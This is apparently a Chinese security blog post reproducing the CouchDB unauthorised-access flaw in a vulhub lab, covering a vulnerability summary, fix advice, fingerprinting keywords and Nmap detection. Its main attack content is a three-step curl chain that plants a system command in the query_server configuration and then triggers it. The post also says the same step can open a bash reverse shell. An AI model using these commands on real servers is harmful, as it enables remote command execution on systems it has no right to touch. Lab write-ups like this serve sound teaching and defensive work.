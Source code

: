 ```yaml
---
layout:     post
title:      CouchDB 未授权访问漏洞
subtitle:   未授权访问漏洞
date:       2019-10-10
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
	- 未授权漏洞
---
```

# 漏洞介绍
* 漏洞名称：CouchDB 未授权访问漏洞
* CVE编号：SSV-91597
* 发布时间：2016-05-19
* 漏洞说明：CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，通过一个未授权访问的CouchDB，通过修改其query_server配置，来执行系统命令。
* 影响范围：全版本
* 修复建议：1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。 2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
# 0x00 环境配置
靶场环境使用vulhub来搭建，从下图可以看到CouchDB在5984端口上运行了：

![图片](../../../../img/couchdb_unauth_1.png)

# 0x01 漏洞复现
如下图所示，直接访问，可以看到欢迎信息和版本号：

![图片](../../../../img/couchdb_unauth_2.png)

访问[http://ip:5984/_config](http://192.168.18.129:5984/_config)，可以通过该页面中的关键字来判断该漏洞是否存在：

![图片](../../../../img/couchdb_unauth_3.png)

关键字如下：

```
httpd_design_handlers
external_manager
replicator_manager
```
访问[http://ip:5984/_utils/](http://10.20.40.96:5984/_utils/)是CouchDB Web界面：

![图片](../../../../img/couchdb_unauth_4.png)

## 执行系统命令
作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：

```
1、新增query_server配置，写入要执行的命令；
curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
 
2、新建一个临时库和临时表，插入一条记录；
curl -X PUT 'http://username:password@your-ip:5984/vultest'
curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
 
3、调用query_server处理数据
curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```
我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：

![图片](../../../../img/couchdb_unauth_5.png)

![图片](../../../../img/couchdb_unauth_6.png)

# 0x02 指纹
CouchDB 未授权访问漏洞的发现需要提前做一次端口扫描，下图就是Nmap对CouchDB应用的识别：

![图片](../../../../img/couchdb_unauth_7.png)

# 0x03 总结
一开始打算使用Vulhub给的exp.py的脚本，搞了半天没反弹成功，因此还是使用curl命令来执行任意命令，curl还是很给力的，给自己布置下作业，学一学curl的命令。

